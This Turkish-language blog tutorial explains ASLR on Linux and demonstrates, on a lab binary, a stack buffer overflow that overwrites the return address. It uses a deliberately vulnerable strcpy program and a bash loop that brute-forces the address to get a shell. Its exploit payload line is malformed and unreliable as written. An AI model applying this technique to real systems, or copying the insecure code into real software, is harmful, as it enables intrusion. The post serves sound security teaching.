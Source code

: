 ```yaml
---
layout: post
title:  "Address Space Layout Randomization (ASLR)"
author: "Alp Eren Işık"
date:   2020-02-26
categories: [exploit-development, reverse-engineering, binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `ASLR Nedir ?`

Adından da anlaşılacağı üzere program her çalıştırıldığında `sanal memory` üzerinde stack ve kütüphane adreslerini değiştiren bir koruma yöntemidir. (sanırım sadece .text bölümüne ait adresler sabit kalıyormuş)

Yani şu şekilde...

![1](/static/img/posts/ASLR/1.png)  

![2](/static/img/posts/ASLR/2.png)  

Her defasında adreslerin değiştiğini görebilirsiniz. Bu durumda exploitimizi yazarken elde etmiş olduğumuz adres programı kapattığımızda değişeceği için pek bir işe yaramayacaktır.

`NOT :`

Sistemimizde (linux için) `ASLR` korumasının açık olup olmadığına bakmak için aşağıdaki komutu girebiliriz. Eğer 0 ise kapalı, 1 ise orta, 2 ise full+full açık demektir

    cat /proc/sys/kernel/randomize_va_space


`NOT-2 :`

ASLR sistemimizde aktif olmasına rağmen bazen uygulama bunu desteklemeybilir ve her seferinde bize aynı adresi verebilir. Bu durumda da gcc ile derlerken birkaç parametre kullanabiliriz.

![3](/static/img/posts/ASLR/3.png)  

![4](/static/img/posts/ASLR/4.png)  

Burada dikkat ederseniz adresin belli bir kısmı değişirken belirli bir kısmı sabit kalmakta. Bu da `ASLR Bypass` yaparken işimize yarayabilecek bir detay.

# `Bypass ? `

ASLR korumasını bypass etmek için çeşitli yöntemler mevcut.

- `ret2libc + Bruteforcing`

- `Return Oriented Programming (ROP)`

- `return to PLT (ret2PLT)`

Şimdilik sadece bunları gördüm ilerde başka yöntemler ile karşılaşırsam eklerim.

# `DEMO`

Sanırım az biraz `ASLR`'nin ne olduğunu anladık. Şimdi de kısa bir örnek yapalım ki kafamızda ki soru işaretlerini giderelim. (Bu yazıda yukarda bahsettiğim tekniklerin hepsini anlatmayacağım)

Kodumuz şu şekilde...

    #include <stdio.h>
    #include <string.h>

    void shell() {
    	system("/bin/sh");
    }

    void vuln(char *str) {
    	char buffer[64];
    	strcpy(buffer, str);
    }

    void main(int argc, char *argv[]) {
    	vuln(argv[1]);
    	printf("%s\n","Exec Normal");
    }

**

    gcc vuln.c -o vuln

Derlediğimize göre gdb üzerinden açıp incelemeye başlayalım.

![5](/static/img/posts/ASLR/5.png)  

Buraya kadar bildiğimiz şeyler. gdb ile açtık ve breakpointimizi koyduk. Şimdi de programımız kaç karakterden sonra dönüş adresi yazacak onu bulalım.

![6](/static/img/posts/ASLR/6.png)  

`EEEE` karakterinde geri dönüyor. Demekki 76 karakterden sonra `eip` üzerine bir adres yazabilirim.

Dikkat ederseniz programımızın içerisinde kullanılmamış ve `/bin/sh` komutunu çalıştıran bir fonksiyon var. Bunun adresini bulup `eip` adresinin yerine yazarsam shell alabiliriz sanırım.

![7](/static/img/posts/ASLR/7.png)  

Adresi bulduk... Şimdi yerine koyalım

![8](/static/img/posts/ASLR/8.png)  

Evet gdb üzerinden başarılı bir şekilde shellimizi aldık. Ancak burda adresler değişken değildi yani eğer biz gdb üzerinden değilde direk terminal üzerinden exploitimizi çalıştırırsak bu çalışmayacaktır. (ASLR koruması açıkken)

![9](/static/img/posts/ASLR/9.png)  

ASLR koruması açıkken `Segmentation Fault` hatası aldık. İsterseniz bir de bu koruma kapalıyken çalışıp çalışmadığına bir göz atalım. (maksat içimiz rahat etsin)

![10](/static/img/posts/ASLR/10.png)  

Evet exploitimiz `ASLR` koruması kapalıyken cayır cayır çalışmakta ancak koruma açıldığı zaman o kadar da etkili değil. Bunun için ufak bir bash script yazacağız. Kısaca yapacağımız şey ise bir döngü oluşturup sürekli olarak exploitimizi çalıştıracağız ve şans eseri doğru adresin denk gelmesini bekleyeceğiz.

    while true
    do
    ./vuln $(python -c 'print "A"*+"BBBB"+"CCCC"+"DDDD"+"\Xb9\x11\x40\x00"')
    done

**

![11](/static/img/posts/ASLR/11.png)  

Ve gördüğünüz gibi `ASLR` koruması açıkken de exploitimizi çalıştırmış olduk.

### `Son Not`

Şans ağırlıklı bir çözüm oldu ancak konunun anlaşılması için diğer yöntemlere göre daha basit ve daha sade bir çözüm olduğunu düşündüğüm için bu yolu tercih ettim. İlerleyen zamanlarda (vakit buldukça) diğer yöntemler ile alakalı da birşeyler yazmaya çalışacağım :)
